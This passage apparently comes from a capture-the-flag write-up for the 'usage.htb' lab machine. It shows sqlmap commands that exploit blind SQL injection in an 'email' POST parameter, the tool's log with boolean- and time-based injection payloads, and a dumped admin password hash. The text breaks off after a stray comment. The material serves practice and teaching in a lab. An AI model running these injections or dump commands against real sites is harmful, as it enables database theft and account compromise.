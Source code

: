 It is a POST request, not a GET request. The parameter we have to exploit is "email". Now, we can build the command:

```sh
sqlmap -r request.txt -p email --batch --level 5 --risk 3 --dbms=mysql --dbs
```

We specify the request, the parameter to be injected, the type of database used and enumerate the databases, so we can extract them one by one.


```sh
┌──(kali㉿kali)-[~/…/share/sqlmap/output/usage.htb]
└─$ cat log       
sqlmap identified the following injection point(s) with a total of 721 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=2qPJeYFy7moaJgUQeWWsCgA96zN1P3nUCFlKzT5D&email=test' AND 5093=(SELECT (CASE WHEN (5093=5093) THEN 5093 ELSE (SELECT 2481 UNION SELECT 1892) END))-- -

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=2qPJeYFy7moaJgUQeWWsCgA96zN1P3nUCFlKzT5D&email=test' AND 6545=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- OjGy
---
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```

The most interesting DB is usage_blog, so lets try and extract it using SQLmap and its blind time-based injection.


```sh
sqlmap -r request.txt -p email --batch --level 5 --risk 3 --dbms=mysql -D usage_blog --dump --threads=10
```

As this is a time-based injection, it is highly advised to use the --threads argument in order to speed up the process. After a while, the table *admin_users* is dumped. Here we can see the hash of the admin account:

```sh
id,name,avatar,password,username,createa_at,updated_at,remember_token
1,Administrator,<blank>,$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2,admin,<blank>,2023-07-23 06:02:19,kThXIKu7GhLpgwStz7fCFxiC[bAQQ?\x11?PpxwEkzv1Sdzva0qLYaDhllwrsLT
```

Another set of data is interesting:


[comment]: <> (Insertar imagen de la carátula de la máquina)